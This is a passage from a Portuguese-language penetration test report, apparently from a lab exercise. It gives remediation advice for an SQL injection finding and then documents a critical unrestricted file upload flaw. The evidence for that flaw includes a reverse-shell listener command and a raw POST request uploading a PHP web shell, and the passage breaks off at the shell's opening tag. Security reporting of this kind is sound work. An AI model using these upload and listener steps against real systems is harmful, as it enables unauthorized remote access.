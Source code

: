 **Impacto:**  
Esta vulnerabilidade permite que um atacante:
- Acesse o sistema sem credenciais válidas
- Obtenha acesso a informações sensíveis armazenadas no banco de dados
- Execute operações privilegiadas dentro da aplicação
- Potencialmente exfiltre todo o conteúdo do banco de dados

**Recomendações:**  
1. Implementar consultas parametrizadas (prepared statements) para todas as operações de banco de dados.
2. Validar e sanitizar todas as entradas de usuário.
3. Implementar princípio de menor privilégio nas conexões de banco de dados.
4. Considerar a implementação de WAF (Web Application Firewall) como medida adicional de proteção.

**Referências:**
- CWE-89: Improper Neutralization of Special Elements used in an SQL Command
- OWASP Top 10 2021: A03 - Injection
- https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

### 2. Reverse Shell via Upload de Arquivos sem Restrição  (CRÍTICA)

**Identificador:** VULN-002  
**Severidade:** Crítica  
**CVSS:** 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)  
**Localização:** http://10.10.18.213/management/admin/login.php

**Descrição:**  
Foi identificada uma vulnerabilidade que permite o upload de arquivos sem restrição adequada. A aplicação não valida corretamente a extensão e o tipo dos arquivos enviados, possibilitando o upload de arquivos maliciosos, como shells web em PHP, que podem ser utilizados para comprometer o sistema.

**Evidência:**  
O primeiro passo é um listener na máquina atacante usando penelope com a porta escolhida no reverse shell:

```
python3 penelope.py PORTA
```

E então,ao realizar o upload de um arquivo PHP malicioso contendo um web shell na página de cadastro de usuários

```

POST /management/classes/Users.php?f=save HTTP/1.1
Host: 10.10.153.42:445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------29210971036646702814293864180
Content-Length: 6404
Origin: http://10.10.153.42:445
Connection: keep-alive
Referer: http://10.10.153.42:445/management/admin/?page=user/manage_user
Cookie: PHPSESSID=nbh2n4pr4vhuqc4apnq6kgh1p2
Priority: u=0

-----------------------------29210971036646702814293864180
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/x-php

<?php

```